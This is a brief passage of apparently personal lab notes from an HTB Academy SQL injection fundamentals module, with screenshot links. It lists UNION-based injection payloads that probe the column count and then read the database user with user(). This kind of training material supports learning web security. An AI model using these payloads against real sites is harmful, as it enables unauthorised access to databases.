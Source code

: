 cn' UNION select 1,2,3-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-28.png)

cn' UNION select 1,2,3,4-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-29.png)

cn' UNION select 1,user(),3,4-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-30.png)
